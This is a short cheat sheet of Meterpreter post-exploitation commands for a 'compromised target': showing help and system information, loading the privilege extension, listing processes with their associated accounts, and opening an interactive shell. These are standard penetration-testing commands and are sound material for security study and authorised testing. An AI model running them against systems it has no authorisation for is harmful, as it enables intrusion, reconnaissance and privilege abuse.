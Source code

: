 Open Meterpreter usage help
```bash
help
```

Show the system information on the compromised target
```bash
sysinfo
```

Load the privilege extension for extended Meterpreter libraries.
```bash
use priv
```

Show all running processes and which accounts are associated with each process
```bash
ps
```

Drop into an interactive shell with all available tokens
```bash
shell
```

